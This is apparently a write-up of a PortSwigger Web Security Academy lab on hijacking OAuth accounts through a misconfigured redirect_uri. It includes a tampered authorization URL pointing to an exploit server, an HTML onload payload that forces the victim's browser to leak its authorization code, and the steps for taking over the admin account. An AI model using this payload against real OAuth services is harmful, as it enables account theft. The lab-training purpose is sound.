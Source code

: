 
## OAuth account hijacking via redirect_uri

This lab uses an OAuth service to allow users to log in with their social media account. A misconfiguration by the OAuth provider makes it possible for an attacker to steal authorization codes associated with other users' accounts.

To solve the lab, steal an authorization code associated with the admin user, then use it to access their account and delete Carlos.

The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.

You can log in with your own social media account using the following credentials: wiener:peter.

https://portswigger.net/web-security/oauth

---------------------------------------------

References: 

- https://portswigger.net/web-security/oauth

![img](images/OAuth%20account%20hijacking%20via%20redirect_uri/1.png)
![img](images/OAuth%20account%20hijacking%20via%20redirect_uri/2.png)

---------------------------------------------

https://0a0c001204d355fec1a39983009b007d.web-security-academy.net/

![img](images/OAuth%20account%20hijacking%20via%20redirect_uri/3.png)

![img](images/OAuth%20account%20hijacking%20via%20redirect_uri/4.png)


https://oauth-0a5f00ff04d45537c1f997b8025a00a0.oauth-server.net/auth?client_id=wkw7zy0gcxh46yxashxrk&redirect_uri=https://0a0c001204d355fec1a39983009b007d.web-security-academy.net/oauth-callback&response_type=code&scope=openid%20profile%20email


https://oauth-0a5f00ff04d45537c1f997b8025a00a0.oauth-server.net/auth?client_id=wkw7zy0gcxh46yxashxrk&redirect_uri=https://exploit-0a4c00770488559fc1e198fb01180071.exploit-server.net&response_type=code&scope=openid%20profile%20email

![img](images/OAuth%20account%20hijacking%20via%20redirect_uri/5.png)
![img](images/OAuth%20account%20hijacking%20via%20redirect_uri/6.png)

Follow redirection:

![img](images/OAuth%20account%20hijacking%20via%20redirect_uri/7.png)

Access logs:

![img](images/OAuth%20account%20hijacking%20via%20redirect_uri/8.png)

Payload to open the link:
<body onload="window.open('https://oauth-0a5f00ff04d45537c1f997b8025a00a0.oauth-server.net/auth?client_id=wkw7zy0gcxh46yxashxrk&redirect_uri=https://exploit-0a4c00770488559fc1e198fb01180071.exploit-server.net/&response_type=code&scope=openid%20profile%20email')">

![img](images/OAuth%20account%20hijacking%20via%20redirect_uri/9.png)

Deliver exploit to victim:

![img](images/OAuth%20account%20hijacking%20via%20redirect_uri/10.png)

Log out, log in and replace the code with this one:

![img](images/OAuth%20account%20hijacking%20via%20redirect_uri/11.png)

After the last request, you get admin access:

![img](images/OAuth%20account%20hijacking%20via%20redirect_uri/12.png)

Admin panel:

![img](images/OAuth%20account%20hijacking%20via%20redirect_uri/14.png)
![img](images/OAuth%20account%20hijacking%20via%20redirect_uri/15.png)
